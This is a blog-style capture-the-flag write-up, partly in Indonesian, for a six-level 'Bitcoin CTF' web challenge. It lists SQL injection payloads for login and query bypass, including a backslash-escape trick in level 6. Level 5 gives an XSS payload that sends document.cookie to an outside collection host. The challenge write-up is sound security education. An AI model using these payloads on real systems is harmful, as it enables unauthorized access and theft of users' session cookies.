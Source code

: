 ```yaml
---
private: 'false'
modified: 2017-03-23
date: 2017-03-23
layout: post
featured: false
published: true
comments: true
title: Writeup BitcointCTF
tags: sqlinjection
mathjax: false
imagefeature: /images/sqlinjection.jpg
description: Writeup BitcointCTF Challenge
category: Web Exploitation
chart: null
---
```



## Bitcoin CTF ($)

FIRST LEVEL: http://188.166.248.215/ 

prize: 1BtCctfV3MFXQ9zfLq8BkK53cpGdmkA2WL 

what: capture the flag \(CTF\) 

when: 1490349600 irc: \#bitcoinctf on freenode questions: @bitcoinctf or &lt;bitcoinctf \[at\] gmail.com&gt;



### Level 1

Soal : [http://188.166.248.215/](http://188.166.248.215/)

Injection : `1 or (1=1)#`

![](/images/level1-bitcoinctf.png)

### Level 2

Soal : [http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/](http://188.166.248.215/ce4dd79d-971b-40d3-a4e6-2041da6bcc64/)

Injection : `12' or '1'='1`

![](/images/level2-bitcoinctf.png)

### Level 3

Soal : [http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/](http://188.166.248.215/85998adb-2109-45d2-aec9-6e9d995e6d47/)

Injection : `a' or 1=1#`

![](/images/level3-bitcoinctf.png)

### Level 4

Soal : [http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/](http://188.166.248.215/f3af878d-d7cd-47c0-b98e-074cf82d30d6/)

Injection : `0 -- ' or '1'='1' -- " or "1"="1`

![](/images/level4-bitcoinctf.png)

### Level 5

Soal : [http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/](http://139.59.127.138/8eb7a8a1-2e0d-4ff7-a91b-8686ff229c28/)

Injection : `<img src=x onerror=this.src='http://requestb.in/191nnlq1?c='+document.cookie>`

![](/images/level5-bitcoinctf.png)

![](/images/level5-bitcoinctf-2.png)



### Level 6

Soal : [http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/](http://139.59.127.139/dbd41354-9645-4e87-bbb8-27f5db622a67/)

  
setelah beberapa kali melakukan injeksi basic seperti `' OR 1=1#` pada kolom username dan password nampaknya tidak berjalan kemudian saya menebak query di backendnya seperti ini : `SELECT * from users where username='$user' and pasword = '$pass'`  


ketika kita coba kirim payload : `aaa\ & password= xxx `

query sebenarnya :` SELECT * from users where username='aaa\' and pasword = ' xxx'`



ketika kita coba kirim payload : `username = aaa\ & password= OR 1=1#`

query sebenarnya : `SELECT * from users where username='aaa\' and pasword = ' OR 1=1#'`

![](/images/level6-bitcoinctf.png)






